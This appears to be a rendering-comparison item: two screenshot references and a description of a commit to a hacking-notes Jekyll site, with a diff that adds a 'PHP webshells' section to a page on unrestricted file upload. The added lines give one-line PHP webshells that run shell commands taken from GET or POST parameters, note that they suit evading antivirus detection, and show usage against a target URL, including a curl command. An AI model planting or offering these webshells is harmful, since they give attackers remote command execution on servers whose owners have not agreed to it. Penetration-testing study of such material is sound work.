

Before and after one commit to mvc1009/hackingnotes, a Jekyll site: the page built from _docs/web/unrestricted-file-upload.md, in a window 1280 px wide and 900 px high, scrolled down 2132 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
PHP webshells

````diff
--- a/_docs/web/unrestricted-file-upload.md
+++ b/_docs/web/unrestricted-file-upload.md
@@ -93,3 +93,22 @@ WScript.StdOut.Write(strOutput)
 WScript.Echo(strOutput)
 %>
 ```
+# PHP
+
+The are some typicall PHP webshells, but some are detected by AV. Here are some usefull ones.
+
+* https://github.com/bayufedra/Tiny-PHP-Webshell
+
+```
+<?=`$_GET[0]`?>
+
+Usage :
+  http://target.com/path/to/shell.php?0=command
+```
+
+```
+<?=`$_POST[0]`?>
+
+Usage :
+  curl -X POST http://target.com/path/to/shell.php -d "0=command"
+```
````
